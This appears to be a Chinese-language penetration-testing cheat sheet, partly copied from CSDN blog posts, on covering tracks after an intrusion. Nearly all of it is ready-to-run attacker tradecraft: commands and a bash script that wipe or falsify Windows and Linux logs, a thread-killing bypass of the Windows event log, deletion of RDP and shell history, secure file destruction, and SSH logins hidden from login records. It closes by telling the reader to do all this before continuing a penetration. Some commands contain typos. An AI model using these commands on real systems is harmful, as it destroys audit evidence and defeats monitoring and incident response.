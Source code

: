 ### 一、Windows

#### 1、常见日志

~~~shell
#应用程序日志文件：%systemroot%\system32\config\AppEvent.EVT;

#安全日志文件：%systemroot%\system32\config\SecEvent.EVT;

#系统日志文件：%systemroot%\system32\config\SysEvent.EVT;

#DNS日志默认位置：%sys temroot%\system32\config，默认文件大小512KB

#Internet信息服务FTP日志默认位置：%systemroot%\system32\logfiles\msftpsvc1\，默认每天一个日志;

#Internet信息服务WWW日志默认位置：%systemroot%\system32\logfiles\w3svc1\，默认每天一个日志;

#Scheduler服务日志默认位置：%sys temroot%\schedlgu.txt;
~~~

应用程序日志，安全日志，系统日志，DNS服务器日志，它们这些LOG文件在注册表中的：HKEY_LOCAL_MACHINE\system\CurrentControlSet\Services\Eventlog
有的管理员很可能将这些日志重定位。其中EVENTLOG下面有很多的子表，里面可查到以上日志的定位目录。
Schedluler服务日志在注册表中HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\SchedulingAgent

#### Windows日志清除

#### （1）wevtutil.exe

获取日志分类列表：

~~~
wevtutil el >1.txt
~~~

获取单个日志类别的统计信息：

~~~
wevtutil gli "windows powershell"
~~~

查看指定日志的具体内容：

~~~
wevtutil qe /f:text "windows powershell"
~~~

删除单个日志类别的所有信息：

~~~
wevtutil cl "windows powershell"
~~~

#### （2）NSA DanderSpiritz

统计日志列表，查询所有日志信息，包含时间，数目

~~~
eventlogquery -log Application
~~~

查看指定类别的日志内容

~~~
eventlogfilter -log Application -num 10
~~~

删除该类日志所有内容

~~~
eventlogclear -log Application
~~~

删除单条内容

~~~
eventlogedit -log Application -record 1
~~~

#### 绕过Windows日志

绕过原理：

Windows日志对应于eventlog服务，找到该服务对应的进程svchost.exe，进而筛选出svchost.exe进程中具体实现日志功能的线程，调用TerminateThread结束线程，破坏日志记录功能

特别的地方：

由于只结束了实现日志功能的线程，所以Windows Event Log服务没有被破坏，状态仍为正在运行
————————————————
版权声明：本文为CSDN博主「思源湖的鱼」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/weixin_44604541/article/details/119411191



（1）方法1
定位eventlog服务对应进程svchost.exe的pid
遍历该进程中的所有线程
判断线程是否满足条件
Windows Event Log 服务需要调用wevtsvc.dll，完整路径为%WinDir%\System32\wevtsvc.dll
并且，如果线程调用了wevtsvc.dll，就可以判读该线程实现了日志记录功能
结束线程
使用TerminateThread
恢复方法
结束进程svchost.exe
重新开启Windows Event Log 服务：net start eventlog
工具：https://github.com/hlldz/Phant0m
————————————————
版权声明：本文为CSDN博主「思源湖的鱼」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/weixin_44604541/article/details/119411191



（2）方法2
定位eventlog服务对应进程svchost.exe的pid
Get-WmiObject -Class win32_service -Filter "name = 'eventlog'" | select -exp ProcessId
1
找到svchost.exe的pid为7008
遍历该进程中的所有线程
使用PsList：pslist.exe /accepteula -d 7008
获取进程svchost.exe中的所有线程
判断线程是否满足条件
获取线程对应的服务，如果为eventlog，则满足条件
使用工具：ScTagQuery：sctagqry.exe -t 7928
根据返回的结果Service Tag，判断线程对应的服务
找到对应eventlog的线程
结束线程
调用TerminateThread
工具：https://github.com/3gstudent/Windows-EventLog-Bypass

#### 4、Metasploit

~~~
run clearlogs 
clearev #清除windows中的应用程序日志、系统日志、安全日志
~~~

#### 5、3389登陆记录清除

~~~
@echo off
@reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default" /va /f
@del "%USERPROFILE%\My Documents\Default.rdp" /a
@exit
~~~

#### 6、清除recent

在文件资源管理器中点击“查看”->“选项”->在常规->隐私中点击”清除”按钮

或直接打开C:\Users\Administrator\Recent并删除所有内容

或在命令行中输入`del /f /s /q “%userprofile%\Recent*.*`

### 二，Linux

#### 1、清除命令历史记录

~~~
histroy -r          #删除当前会话历史记录
history -c          #删除内存中的所有命令历史
rm .bash_history   #删除历史文件中的内容
HISTZISE=0          #通过设置历史命令条数来清除所有历史记录

~~~

#### 2、在隐蔽的位置执行命令

~~~
:set history=0
:!command

~~~

#### 3、日志文件

~~~
/var/run/utmp 记录现在登入的用户
/var/log/wtmp 记录用户所有的登入和登出
/var/log/lastlog 记录每一个用户最后登入时间
/var/log/btmp 记录错误的登入尝试
/var/log/auth.log 需要身份确认的操作
/var/log/secure 记录安全相关的日志信息
/var/log/maillog 记录邮件相关的日志信息
/var/log/message 记录系统启动后的信息和错误日志
/var/log/cron 记录定时任务相关的日志信息
/var/log/spooler 记录UUCP和news设备相关的日志信息
/var/log/boot.log 记录守护进程启动和停止相关的日志消息
~~~

完全删除日志

~~~
cat /dev/null > filename
: > filename
> filename
echo "" > filename
echo > filename
~~~

针对性删除日志文件：

~~~
删除当天日志
sed  -i '/当天日期/'d  filename
~~~

篡改日志

~~~
将所有170.170.64.17ip替换为127.0.0.1
sed -i 's/170.170.64.17/127.0.0.1/g'
~~~

一键清除的bash脚本

~~~
#!/usr/bin/bash
echo > /var/log/syslog
echo > /var/log/messages
echo > /var/log/httpd/access_log
echo > /var/log/httpd/error_log
echo > /var/log/xferlog
echo > /var/log/secure
echo > /var/log/auth.log
echo > /var/log/user.log
echo > /var/log/wtmp
echo > /var/log/lastlog
echo > /var/log/btmp
echo > /var/run/utmp
rm ~/./bash_history
history -c
~~~

#### 4、文件删除

### （1）shred命令

实现安全的从硬盘上擦除数据，默认覆盖3次，通过 -n指定数据覆盖次数

~~~
shred -f -u -z -v -n 8 1.txt 
~~~

### （2）dd命令

~~~
dd if=/dev/zero of=要删除的文件 bs=大小 count=写入的次数
~~~

### （3）wipe

~~~
wipe filename
~~~

### （4）Secure-Delete

~~~
srm filename
sfill filename
sswap /dev/sda1
smem
~~~

#### 5、隐藏远程SSH登陆记录

隐身登录系统，不会被w、who、last等指令检测到

~~~
ssh -T root@192.168.0.1 /bin/bash -i
~~~

不记录ssh公钥在本地.ssh目录中

~~~
ssh -o UserKnownHostsFile=/dev/null -T user@host /bin/bash –i
~~~



首先执行set +o history取消shell历史命令记录，在使用history -d id 删除历史命令中set +o history记录,就可以进行接下来的渗透操作了























